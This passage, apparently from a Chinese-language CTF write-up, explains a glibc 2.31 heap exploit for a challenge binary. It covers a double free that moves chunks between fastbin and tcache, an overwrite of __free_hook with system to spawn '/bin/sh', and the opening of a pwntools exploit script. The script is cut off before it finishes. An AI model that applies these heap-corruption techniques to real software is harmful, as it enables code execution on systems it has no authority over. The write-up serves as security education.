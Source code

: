 ### double free
嗯 这步其实非常 dirty... 也是打了好久qaq    
首先是我们想要去操纵的堆块，我们去先 free 一次它，把他放到 fastbin 的中间（只有这样 double free 才可以不被检测出来），然后再在 update 的时候塞到 tcache 的第一个，这样可以直接 malloc 出来，然后相当于是改 fastbin 的 fd，具体技术见 [how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.31/fastbin_dup_into_stack.c)，这步可以 mark 一下，当时是看的别的师傅的 writeup，看 how2heap 上 malloc consolidate 感觉这里堆块分配比较乱，可能不太好整            

然后还要控制放 Config 结构的 0x20 大小堆块经历下列的过程：
- 被扔到 tcache 里面
- 从 tcache 里面被拿出来
- 再次扔到 fastbin 里面     

为什么要这样做：我们 Update 的时候，该 0x20 大小堆块 的 bk 需要保证为0或者是被 malloc 的合理指针，**且不能是 heap_base + 0x10**      
(如果是这样的话，它 tcache bin 里面的 chunk 数识别不对，从而我们想要操纵的堆块被 malloc 出来之后会被 free 到 fastbin 而非 tcache bin)     
且我们注意到了 libc-2.31 malloc 会 clear bk，如下是 libc-2.31.so malloc 函数对应 tcache 中取出堆块分配的截图    
![alt_text](/assets/img/uploads/malloc_clear_bk.png)
这个可以稍微 mark 一下！也是看了别的 writeup 才发现的hhh      

然后我们从 fastbin 里面申请出来 free_hook 周围的堆块，写 free_hook 为 system，然后随便在哪个堆块上写个 "/bin/sh\x00" 就行了    

### exp
写的有点丑陋hhh 而且可能会有多余的操作 抱歉了qaq
```py
from pwn import*
context(arch='amd64', os='linux', log_level='debug')
p = process("./main")
libc = ELF("./libc-2.31.so")
# cmdAdd 会有 std::vector<Config *>::push_back((char *)this + 56, &v4);
# assemble the structures first
def assemble(cmd,content1,content2,is_save):
    len1 = len(content1)
    len2 = len(content2)
    return p32(cmd) + p32(len1) + content1 + p32(len2) + content2 + p8(is_save)
def assemble_all(handle_ty,key,num,configs):
    return p32(handle_ty) + p32(key) + p32(num) + configs

# 16 24 48 80 88 (case 0,1,2,3,4) 分别对应 cmdGet cmdAdd cmdUpdate cmdDel cmdVisit
# find_if 比较的是 content1 strcmp config 的 content 是否相等
def cmdAdd(content1,content2,is_save):
    return assemble(1,content1,content2,is_save)
def cmdGet(content1,content2,is_save):
    return assemble(0,content1,content2,is_save)
def cmdUpdate(content1,content2,is_save):
    return assemble(2,content1,content2,is_save)
def cmdDel(content1,content2,is_save):
    return assemble(3,content1,content2,is_save)
def cmdVisit(content1,content2,is_save):
```